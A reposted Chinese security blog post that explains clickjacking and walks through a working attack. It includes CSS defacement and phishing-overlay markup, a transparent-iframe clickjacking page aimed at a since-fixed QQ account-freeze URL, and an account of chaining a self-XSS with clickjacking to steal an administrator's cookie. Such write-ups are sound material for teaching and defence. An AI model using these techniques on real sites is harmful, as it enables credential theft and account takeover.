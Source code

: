 title: （转）ClickJacking攻击技巧
author: Believe firmly
date: 2020-01-02 11:39:24
tags:
---
<article> <div class="center">  
<h3> 鸡肋点搭配ClickJacking攻击-获取管理员权限</h3>
 <!--more--> </div> <div class="divider"></div> <h1 id="前言">前言</h1> <p>有一段时间没做测试了，偶尔的时候也会去挖挖洞。本文章要写的东西是我利用<code class="language-plaintext highlighter-rouge">ClickJacking</code>拿下管理员权限的测试过程。但在说明过程之前，先带大家了解一下<code class="language-plaintext highlighter-rouge">ClickJacking</code>的<strong>基本原理以及简单的漏洞挖掘</strong>。</p> <h1 id="clickjacking">ClickJacking</h1> <p>ClickJacking背景说明:</p> <blockquote> <p>ClickJacking（点击劫持）是由互联网安全专家罗伯特·汉森和耶利米·格劳斯曼在2008年首创的。 ClickJacking是一种视觉欺骗攻击手段，在web端就是iframe嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。</p> </blockquote> <p>说道视觉欺骗，相信有<code class="language-plaintext highlighter-rouge">炫技</code>经验的朋友们一定会想到，自己一个后台拿不下Webshell权限的时候，而想要黑掉首页从而达到炫技，使用的是什么呢？没错一般使用CSS样式表来劫持首页以造成黑掉的假象~</p> <div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;table</span> <span class="na">style=</span><span class="s">"left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"</span><span class="nt">&gt;&lt;tbody&gt;&lt;tr&gt;&lt;td</span> <span class="na">style=</span><span class="s">"color:#FFFFFF;z-index: 6000;vertical-align:top;"</span><span class="nt">&gt;&lt;h1&gt;</span>hacked by key<span class="nt">&lt;/h1&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/tbody&gt;&lt;/table&gt;</span>
</code></pre></div></div> <p><a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x00.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x00.png" alt="CSS jacking"></a></p> <p>除了可以炫技，CSS劫持可以做的东西也有很多：例如经典的form表单钓鱼攻击</p> <div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;table</span><span class="err">+</span><span class="na">style=</span><span class="s">"left:+0px;+top:+0px;+position:+fixed;z-index:+5000;position:absolute;width:100%;background-color:white;"</span><span class="nt">&gt;&lt;tr&gt;&lt;td&gt;&lt;form</span> <span class="na">action=</span><span class="s">"http://192.168.0.109/login.php"</span> <span class="na">method=</span><span class="s">"post"</span><span class="nt">&gt;</span>账号：<span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"text"</span> <span class="na">name=</span><span class="s">"name"</span><span class="nt">&gt;&lt;br&gt;</span>密码：<span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"password"</span> <span class="na">name=</span><span class="s">"pwd"</span><span class="nt">&gt;&lt;br&gt;&lt;input</span> <span class="na">type=</span><span class="s">"submit"</span> <span class="na">value=</span><span class="s">"登陆"</span><span class="nt">&gt;&lt;/form&gt;&lt;td&gt;&lt;/tr&gt;&lt;/table&gt;</span>
</code></pre></div></div> <p><a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x01.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x01.png" alt="CSS jacking"></a></p> <p>这里就不对代码的意思进行解读了，可以看到CSS劫持达到的视觉欺骗攻击效果还是比较LOW的，因为这样的攻击手段偏被动式。而我要说的点击劫持其实也算是被动式，不过相对来说比较容易获得信任让被动式触发，这里只是单单对攻击手法谁的成功率比较高作为比较</p> <p>前面背景介绍的时候说了，点击劫持攻击其实就是镶嵌一个iframe框架(<strong>存在点击劫持漏洞的页面</strong>)在页面上，然后再把其修改为透明的样式。这样的操作只是造成了视觉欺骗，还没达到欺骗点击的效果，所以就需要知道iframe框架其按钮的位置，然后在基于透明层模拟一个位置大小相同的按钮，发给用户让其点击~~</p> <p>这里以QQ安全中心的一个点击劫持为例，作为一个QQ的资深用户应该知道QQ是有安全中心紧急冻结QQ服务的，只要登录自己的安全中心就可以冻结，<strong>地址(漏洞地址，目前漏洞已经修复)</strong>为：<a href="https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985">https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985</a></p> <p><a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x02.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x02.png" alt="QQ Click Jacking"></a></p> <p>一点击，你的QQ就被会冻结(当时不知道逗了多少人~)，那这样怎么利用呢？</p> <p>1.建立iframe框架:</p> <div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;iframe</span> <span class="na">id=</span><span class="s">"frame"</span> <span class="na">src=</span><span class="s">"https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985"</span><span class="nt">&gt;&lt;/iframe&gt;</span>
</code></pre></div></div> <p>2.建立iframe的CSS样式:</p> <div class="language-css highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nf">#frame</span> <span class="p">{</span>
    <span class="nl">border</span><span class="p">:</span> <span class="m">0px</span><span class="p">;</span> <span class="c">/*边框属性为0*/</span>
    <span class="nl">height</span><span class="p">:</span> <span class="m">100%</span><span class="p">;</span> <span class="c">/*框架高度100%*/</span>
    <span class="nl">width</span><span class="p">:</span> <span class="m">100%</span><span class="p">;</span> <span class="c">/*框架宽度100%*/</span>
    <span class="c">/*控制不透明度的属性，兼容各大浏览器*/</span>
    <span class="nl">filter</span><span class="p">:</span> <span class="n">alpha</span><span class="p">(</span><span class="n">Opacity</span><span class="err">=</span><span class="m">0</span><span class="p">);</span> <span class="c">/*提供给IE浏览器8之前的*/</span>
    <span class="nl">-moz-opacity</span><span class="p">:</span> <span class="m">0</span><span class="p">;</span> <span class="c">/*提供给火狐浏览器的*/</span>
    <span class="nl">-webkit-opacity</span><span class="p">:</span> <span class="m">0</span><span class="p">;</span> <span class="c">/*提供给webkit内核的*/</span>
    <span class="nl">-khtml-opacity</span><span class="p">:</span> <span class="m">0</span><span class="p">;</span> <span class="c">/*提供给KHTML内核的*/</span>
    <span class="nl">-ms-filter</span><span class="p">:</span> <span class="s1">"progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"</span><span class="p">;</span> <span class="c">/*提供给IE8之后的*/</span>
    <span class="nl">opacity</span><span class="p">:</span> <span class="m">0</span><span class="p">;</span>
    <span class="c">/*控制不透明度的属性，兼容各大浏览器*/</span>
<span class="p">}</span>
</code></pre></div></div> <p>3.获取iframe框架引用的原页面的按钮位置和大小:</p> <p>大小直接通过审查元素可以看得到:</p> <p><a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x03.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x03.png" alt="QQ Click Jacking"></a></p> <p>现在要获取的就是按钮元素到浏览器顶部的距离，这里通过<code class="language-plaintext highlighter-rouge">id.offsetTop</code>有些时候是无法直接获取的:</p> <blockquote> <p>&gt;&gt;span_verify.offsetTop ←16</p> </blockquote> <p>获取到的是16~很醉，所以使用如下的方法直接获取:</p> <div class="language-javascript highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nb">document</span><span class="p">.</span><span class="nx">getElementById</span><span class="p">(</span><span class="dl">'</span><span class="s1">span_verify</span><span class="dl">'</span><span class="p">).</span><span class="nx">getBoundingClientRect</span><span class="p">().</span><span class="nx">top</span>
</code></pre></div></div> <p><a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x04.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x04.png" alt="QQ Click Jacking"></a> 4.建立按钮:</p> <div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"button"</span> <span class="na">class=</span><span class="s">"button"</span> <span class="na">value=</span><span class="s">"Click"</span> <span class="nt">/&gt;</span>
</code></pre></div></div> <p>5.根据第三步骤获取到的建立按钮样式:</p> <div class="language-css highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nc">.button</span> <span class="p">{</span>
    <span class="nl">position</span><span class="p">:</span> <span class="nb">fixed</span><span class="p">;</span>
    <span class="nl">width</span><span class="p">:</span> <span class="m">100%</span><span class="p">;</span>
    <span class="nl">height</span><span class="p">:</span> <span class="m">42px</span><span class="p">;</span>
    <span class="nl">margin</span><span class="p">:</span> <span class="m">0</span> <span class="nb">auto</span><span class="p">;</span>
    <span class="nl">left</span><span class="p">:</span> <span class="m">0</span><span class="p">;</span>
    <span class="nl">right</span><span class="p">:</span> <span class="m">0</span><span class="p">;</span>
    <span class="nl">display</span><span class="p">:</span> <span class="nb">block</span><span class="p">;</span>
    <span class="nl">top</span><span class="p">:</span> <span class="m">278px</span><span class="p">;</span>
<span class="p">}</span> 
</code></pre></div></div> <p>6.散播，用户中招: <a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x05.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x05.png" alt="QQ Click Jacking"></a> <a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x06.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x06.png" alt="QQ Click Jacking"></a></p> <h2 id="一次点击劫持攻击案例">一次点击劫持攻击案例</h2> <p>说了这么多，在前几天的测试中我是如何拿到管理员权限呢？挖掘到一处self-xss，这里先说明下self-xss可以理解为只能攻击myself~</p> <p>发现流程:</p> <p><strong>发现输入框-&gt;秉着见框就X的原理插入XSS Payload-&gt;弹框-&gt;发现成功</strong></p> <p>然而获取到的URL链接是<code class="language-plaintext highlighter-rouge">/?keyword=&lt;script&gt;alert(1)&lt;/script&gt;</code>，但是不是xss，keyword的值显示在输入框内，需要你再点击<code class="language-plaintext highlighter-rouge">搜索标题按钮</code>才可以触发漏洞。</p> <p><strong>形成的攻击思路-&gt;iframe嵌套漏洞URL链接-&gt;Click Jacking攻击页面构造-&gt;通过留言给管理员引诱触发</strong></p> <p><a style="text-decoration: none;" id="imgid" href="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x07.png"><img src="https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x07.png" alt="Click Jacking"></a></p> <p>攻击页面构造流程其实耐心读到这里的朋友已经是非常明确步骤了:</p> <p><strong>建立iframe框架-&gt;建立iframe框架CSS样式-&gt;获取按钮位置大小-&gt;建立按钮-&gt;建立按钮CSS样式-&gt;留言板留言外网攻击链接-&gt;获取管理员Cookie-&gt;Cookie伪造进入后台</strong></p> <h1 id="结尾">结尾</h1> <p>一次很有意思的实践，让自己满满的成就感，同时也完成了项目任务~</p> </article>